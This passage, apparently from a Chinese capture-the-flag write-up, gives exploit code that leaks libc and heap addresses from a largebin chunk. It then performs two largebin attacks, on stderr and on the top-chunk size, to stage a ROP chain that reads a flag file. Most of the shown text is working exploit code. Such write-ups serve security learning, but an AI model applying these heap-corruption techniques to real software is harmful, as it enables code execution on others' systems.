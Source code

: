 ```plain
add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))
```

largebin chunk还是很好泄露 libc 和 heap 地址的

[![](assets/1699929779-4efb31db5ce124fa735a1ae1f0278aad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001402-ff42b614-7f1a-1.png)

### 二、两次largebin attack

```plain
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))
#改stderr
add(5,0x440,"55555")
add(6,0x430,"./flag")
add(7,0x430,"77777")

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))
#改top_chunk size
```
